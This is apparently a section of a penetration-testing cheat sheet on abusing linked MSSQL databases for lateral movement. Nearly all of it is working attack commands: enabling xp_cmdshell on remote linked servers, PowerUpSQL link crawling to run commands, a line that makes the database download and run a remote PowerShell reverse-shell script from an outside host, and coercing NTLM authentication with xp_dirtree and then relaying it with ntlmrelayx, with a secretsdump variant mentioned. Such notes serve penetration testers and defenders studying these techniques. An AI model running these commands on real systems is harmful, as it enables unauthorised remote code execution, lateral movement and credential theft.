### Abusing MSSQL databases for lateral movement

MSSQL databases can be linked, such that if you compromise one you can execute queries (or even commands!) on others in the context of a specific user (`sa` maybe? 😙). This can even work across forests! If we have SQL execution, we can use the following commands to enumerate database links.

```sql
-- Find linked servers
EXEC sp_linkedservers

-- Run SQL query on linked server
select mylogin from openquery("dc01", 'select SYSTEM_USER as mylogin')

-- Enable 'xp_cmdshell' on remote server and execute commands
EXEC ('sp_configure ''show advanced options'', 1; reconfigure') AT DC01
EXEC ('sp_configure ''xp_cmdshell'', 1; reconfigure') AT DC01
EXEC ('xp_cmdshell ''whoami'' ') AT DC01
```

We can also use [PowerUpSQL](https://github.com/NetSPI/PowerUpSQL) to look for databases within the domain, and gather further information on (reachable) databases. We can also automatically look for, and execute queries or commands on, linked databases (even through multiple layers of database links).

```powershell
# Get MSSQL databases in the domain, and test connectivity
Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded | ft

# Try to get information on all domain databases
Get-SQLInstanceDomain | Get-SQLServerInfo

# Get information on a single reachable database
Get-SQLServerInfo -Instance dcorp-mssql

# Scan for MSSQL misconfigurations to escalate to SA
Invoke-SQLAudit -Verbose -Instance UFC-SQLDEV

# Execute SQL query
Get-SQLQuery -Query "SELECT system_user" -Instance UFC-SQLDEV

# Run command (requires XP_CMDSHELL to be enabled)
Invoke-SQLOSCmd -Instance devsrv -Command "whoami" |  select -ExpandProperty CommandResults

# Automatically find all linked databases
Get-SqlServerLinkCrawl -Instance dcorp-mssql | select instance,links | ft

# Run command if XP_CMDSHELL is enabled on any of the linked databases
Get-SqlServerLinkCrawl -Instance dcorp-mssql -Query 'EXEC xp_cmdshell "whoami"' | select instance,links,customquery | ft

Get-SqlServerLinkCrawl -Instance dcorp-mssql -Query 'EXEC xp_cmdshell "powershell.exe -c iex (new-object net.webclient).downloadstring(''http://172.16.100.55/Invoke-PowerShellTcpRun.ps1'')"' | select instance,links,customquery | ft
```

If you have low-privileged access to a MSSQL database and no links are present, you could potentially force NTLM authentication by using the `xp_dirtree` stored procedure to access this share. If this is successful, the NetNTLM for the SQL service account can be collected and potentially cracked or relayed to compromise machines as that service account.

```sql
EXEC master..xp_dirtree "\\192.168.49.67\share"
```

Example command to relay the hash to authenticate as local admin (if the service account has these privileges) and run `calc.exe`. Leave out the `-c` parameter to attempt a `secretsdump` instead.

```bash
sudo impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.67.6 -c 'calc.exe'
```